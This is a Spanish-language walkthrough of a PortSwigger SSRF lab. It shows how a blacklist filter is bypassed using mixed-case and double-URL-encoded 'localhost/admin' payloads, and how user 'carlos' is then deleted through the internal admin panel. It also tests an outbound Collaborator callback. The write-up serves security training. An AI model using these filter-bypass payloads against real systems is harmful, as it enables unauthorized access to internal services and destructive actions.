 ```yaml
---
title: SSRF with blacklist-based input filter
description: Laboratorio de Portswigger sobre SSRF
date: 2024-11-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SSRF
tags:
  - Portswigger Labs
  - SSRF
  - SSRF with blacklist-based input filter
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una `función` de `verificación` de `inventario` que `obtiene datos` de un `sistema interno`. Para `resolver` el `laboratorio`, debemos cambiar la `URL` de `verificación` de `inventario` para `acceder` a la `interfaz` de `administración` en `http://localhost/admin` y `eliminar` al usuario `Carlos`. El desarrollador ha implementado dos `medidas` defensivas `débiles` contra `SSRF` que necesitaremos eludir

---

## Guía de SSRF

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SSRF` [https://justice-reaper.github.io/posts/SSRF-Guide/](https://justice-reaper.github.io/posts/SSRF-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSRF-Lab-4/image_1.png)

Pulsamos en `View details` y vemos la `descripción` del producto

![](/assets/img/SSRF-Lab-4/image_2.png)

Hacemos `click` sobre la función `Check stock` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-4/image_3.png)

Esta función está `enviando` estos `datos` por `POST`

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard` y vemos que se está haciendo una `petición` a una `url` vamos a ver si nos llega a nosotros esa `petición`

```
stockApi=http://l1nvttjpdegib5zaazzc93buslycm3as.oastify.com
```

Efectivamente nos llega una `petición` en `Burpsuite Collaborator`

![](/assets/img/SSRF-Lab-4/image_4.png)

Si mandamos un petición con este `payload` nos lo `bloquea` y nos muestra el `mensaje` de `External stock check blocked for security reasons`

```
stockApi=http://localhost/admin
```

De esta forma `evitamos` las `medidas defensivas` contra `SSRF`

```
stockApi=http://LoCaLHost/AdMIn
```

También podemos `ofuscar` el `payload` urlencodeandolo dos veces

```
stockApi=http://%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

Hacemos `click derecho` y `seleccionamos` una de las dos `opciones`

![](/assets/img/SSRF-Lab-4/image_5.png)

Vemos que estamos ante un `panel administrativo`

![](/assets/img/SSRF-Lab-4/image_6.png)

Si pulsamos `Delete` para `borrar` al usuario `carlos` no nos dejará, debido a que no estamos `logueados` como usuario `administrador`

![](/assets/img/SSRF-Lab-4/image_7.png)

Para poder `eliminarlo` debemos usar el `SSRF`

```
stockApi=http://LOCaLhOsT/AdMIN/dELeTe?username=carlos
```
